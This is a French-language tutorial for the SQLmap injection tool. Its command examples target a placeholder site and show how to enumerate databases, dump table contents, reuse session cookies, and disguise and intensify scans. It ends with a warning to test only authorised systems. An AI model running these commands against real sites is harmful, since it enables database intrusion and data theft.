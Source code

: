 # Guide d'utilisation de SQLmap

SQLmap est un outil open-source puissant permettant d'automatiser la détection et l'exploitation de vulnérabilités SQL Injection dans les bases de données.

## Installation

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
python sqlmap.py -h
```

## Usage de base

```bash
python sqlmap.py -u "http://sitevulnerable.com/page.php?id=1"
```

- `-u` : URL cible à tester.

## Tester différents types d'injection

SQLmap détecte automatiquement le type d'injection (Boolean-based, Error-based, Time-based, Union-based, etc.)

Pour spécifier explicitement :

```bash
python sqlmap.py -u "http://sitevulnerable.com/page.php?id=1" --technique=BEUSTQ
```

- `B` : Boolean-based
- `E` : Error-based
- `U` : Union query-based
- `S` : Stacked queries
- `T` : Time-based
- `Q` : Inline queries

## Identifier les bases de données

Lister les bases de données disponibles :

```bash
python sqlmap.py -u "http://sitevulnerable.com/page.php?id=1" --dbs
```

## Accéder à une base spécifique

Lister les tables d'une base :

```bash
python sqlmap.py -u "http://sitevulnerable.com/page.php?id=1" -D nom_base --tables
```

Lister les colonnes d'une table :

```bash
python sqlmap.py -u "http://sitevulnerable.com/page.php?id=1" -D nom_base -T nom_table --columns
```

Extraire les données d'une table :

```bash
python sqlmap.py -u "http://sitevulnerable.com/page.php?id=1" -D nom_base -T nom_table -C nom_colonne --dump
```

## Authentification

Si la cible nécessite une authentification par cookie :

```bash
python sqlmap.py -u "http://sitevulnerable.com/page.php?id=1" --cookie="PHPSESSID=abcd1234"
```

## Utiliser un fichier de requête HTTP

Vous pouvez capturer une requête avec Burp Suite ou autre proxy et la sauvegarder dans un fichier (`request.txt`). SQLmap peut alors exploiter directement cette requête :

```bash
python sqlmap.py -r request.txt
```

## Options utiles supplémentaires

- `--batch` : exécute automatiquement sans demander confirmation.
- `--random-agent` : utilise un User-Agent aléatoire.
- `--level` et `--risk` : ajustent l'agressivité du scan (1 à 5).

Exemple avancé :

```bash
python sqlmap.py -u "http://sitevulnerable.com/page.php?id=1" --batch --random-agent --level=5 --risk=3
```

## Prévenir les abus

Utilisez SQLmap uniquement sur des systèmes que vous possédez ou pour lesquels vous avez une autorisation explicite. Les tests non autorisés sont illégaux et peuvent entraîner des poursuites judiciaires.


